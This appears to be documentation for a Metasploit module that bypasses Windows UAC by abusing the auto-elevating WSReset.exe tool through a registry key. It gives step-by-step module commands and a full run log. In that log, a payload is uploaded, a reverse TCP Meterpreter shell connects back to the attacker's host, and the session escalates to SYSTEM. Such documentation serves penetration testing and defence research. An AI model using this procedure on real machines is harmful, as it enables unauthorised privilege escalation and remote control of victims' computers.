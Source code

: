 ## Intro

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, and it will automatically
launch a file from a low-privilege registry location with elevated privileges.
To bypass, simply place the binary on disk, write its location in the
correct registry key, and run WSReset.exe.  The binary will be run with elevated
privileges. 

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_reg`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

### Windows 10.0.17134.885 x64

```
msf5 exploit(windows/local/bypassuac_windows_store_reg) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\WSReset.exe
[*] make payload name
[*] make payload pathname
[*] make payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Registry Changes
[*] Registry Changes Complete
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\WSReset.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe!
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 4 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2019-09-04 17:01:46 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-3DKRD1E
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-3DKRD1E\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
